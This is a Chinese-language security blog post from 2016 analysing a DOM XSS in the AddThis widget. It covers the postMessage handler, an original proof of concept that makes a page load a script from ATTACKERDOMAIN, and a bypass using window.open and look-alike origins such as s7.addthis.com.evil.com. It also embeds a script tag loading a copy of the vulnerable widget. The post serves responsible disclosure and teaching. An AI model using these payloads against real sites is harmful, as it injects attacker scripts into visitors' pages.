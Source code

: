 title: "分享插件AddThis导致的DOM XSS"
date: 2016-12-25 14:03:41
tags: ["安全", "XSS"]

---

## 背景

说明：这个漏洞是 https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/ 修复的绕过，目前已经报告给AddThis并得到修复。

> AddThis是由多姆·沃纳伯格（Dom Vonarburg）创立并由Clearspring公司拥有的一个社会性书签服务。它可以与网站进行整合，访客即可用它将网站上的某些内容通过其他网络服务收藏或分享，诸如Facebook、MySpace、Google书签、Twitter等
> From https://zh.wikipedia.org/wiki/AddThis

使用的例子有：

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30n0dmyqj20nd08o0wd.jpg)

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30nhwnasj20rq0bddho.jpg)

## 分析

使用这款插件，需要在网页上加入类似以下的代码

```html
<!-- Go to www.addthis.com/dashboard to customize your tools -->
<script src="//s7.addthis.com/js/300/addthis_widget.js#pubid=ra-538ceb912f1cca19" async="async"></script>
```

当插件加载完成后，就会监听`message`事件。

![](http://ww3.sinaimg.cn/large/7184df6bgw1fb3110ele5j21340em79m.jpg)

看完前面提到的那篇文章之后，我们可以知道在这个事件处理函数中，如果`message`事件处理函数接收到一个 *合法来源* 的消息，消息内容如下：`at-share-bookmarklet://example.com/xss.js`时，就会动态在页面中插入指定的JS脚本。之前的漏洞是在这里根本没有检查消息的来源就直接加载执行导致了DOM XSS，原先的PoC：

```html
<iframe id="frame" src="https://targetpage/using_addthis"></iframe>

<script>
document.getElementById('frame').contentWindow.postMessage('at-share-bookmarklet://ATTACKERDOMAIN/xss.js', '*');
</script>
```

AddThis对这个漏洞进行的修复如下：
1. 添加检查当前窗口是不是被嵌套在：`iframe`, `frame`等标签里，如果是，则不监听`message`事件。
2. 检查来源

修复后的代码如下：

```js
, c = window.parent === window;
...
c && u(window, "message", function(e) {
  if (e) {
      var t = _atr.substring(0, _atr.length - 1)
        , n = e.origin.indexOf(t) === "https:".length || e.origin.indexOf(t) === "http:".length || /^https?:\/\/(localhost:\d+|localhost$)/.test(e.origin)
        , o = "string" == typeof e.data;
      if (o && n) {
          var a = e.data.match(/at\-share\-bookmarklet\:(.+?)$/) || []
            , i = a[1];
          if (i) {
              try {
                  _ate.menu.close()
              } catch (s) {}
              r(i)
          }
      }
  }
})
```

1. 其中`_attr`的值为`//s7.addthis.com/`，那么`t`的值就是`//s7.addthis.com`
2. `e.origin`是调用了`postMessage`这个API的来源
3. 什么时候`o && n`的值会是真呢？例如站点：`http://s7.addthis.com/`向目标站点发送消息的时候

但这个修复真的没有问题了吗？在使用postMessage进行跨域通信的时候，有以下几种场景：

1. 父窗口与iframe，frame等标签里的子网页进行通信，即上面那个PoC
2. 使用window.open打开一个新的窗口

  ```js
  var win = window.open("http://target.com/index.html");
  win.postMessage("this is a message", "*");
  ```

  `http://target.com/index.html`这个页面就可以监听`message`事件获取到以上的消息。


也就是说，对于一个安装了这个插件的目标站点，我们依旧可以通过方法2发送一个消息给他。另外，这里的域名检查也不完善，简单的说，只要是`s7.addthis.com`开头的域名都是合法的，如`s7.addthis.com.evil.com`

```js
> e.origin = 'http://s7.addthis.com.evil.com'
> e.origin.indexOf(t) === "http:".length
< true
```

## PoC

你现在在看的这个页面就加载了有漏洞的那个AddThis脚本，我部署了一个PoC，来XSS当前页面，可以实际感受一下: http://s7.addthis.com.poc.akrxd.net/addthis_poc/poc.html

<script type="text/javascript" src="https://cdn.rawgit.com/zhchbin/zhchbin.github.io/source/js/addthis_widget.js"></script>

